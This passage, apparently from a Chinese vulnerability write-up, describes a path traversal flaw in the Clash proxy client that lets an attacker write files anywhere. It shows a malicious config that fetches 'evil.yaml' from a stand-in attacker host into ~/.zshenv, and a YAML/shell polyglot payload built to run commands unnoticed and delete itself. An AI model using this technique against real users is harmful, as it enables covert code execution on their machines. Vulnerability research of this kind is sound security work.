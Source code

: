 在向本地`WriteFile`写文件时，也应该限制只可以将文件写入`/Users/$USERNAME/.config/clash/`目录之中。

```go

func safeWrite(path string, buf []byte) error {
	dir := filepath.Dir(path)

	if _, err := os.Stat(dir); os.IsNotExist(err) {
		if err := os.MkdirAll(dir, dirMode); err != nil {
			return err
		}
	}

	return os.WriteFile(path, buf, fileMode)
}
```

此处也就存在一个路径穿越漏洞，而且`path`参数的文件名和其文件内容是可控的，那么最终就导致任意位置任意文件写入，不过需要注意的是写入的文件内容需要符合yaml格式。

那将文件写入到哪儿，才能最大化利用这个漏洞呢？在Linux系统上可以写入`~/.bash_profile`、`~/.profile`、`~/.bashrc`这三个文件之中；在macOS中也可以写入到这三个文件中，除此之外，还可以写zsh相关的配置文件`~/.zshenv`；对于Windows系统，利用方式在历史漏洞章节已经提过了。下面给出一个示例的恶意主配置文件内容。

```yaml
mixed-port: 7890
allow-lan: false
mode: rule
log-level: warning
proxy-providers:
  provider1:
    type: http
    url: 'http://{{yourevilser}}/evil.yaml'
    interval: 3600
    path: ../../.zshenv
    healthcheck:
      enable: true
      interval: 600
      url: http://www.gstatic.com/generate_204
```

其中`evil.yaml`内容如下，由于Clash对格式做了检查，如果不符合yaml格式则会报错，所以此处不仅需要符合yaml格式，最好还要尽可能的符合shell格式，以防止在执行命令的过程中报错被受害者发觉，如下的`<<!`在shell中意味着多行注释。

```yaml
open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &' <<!:
  aaaaa: 11111

proxies:
  - {name: vP, server: n04.a00x.party, port: 18000, type: ssr, cipher: aes-256-cfb, password: AFX92CS, protocol: auth_aes128_sha1, obfs: http_simple, protocol-param: 232991:xSnSFv, obfs-param: download.windowsupdate.com, udp: true}

aaaaa: 2222
```
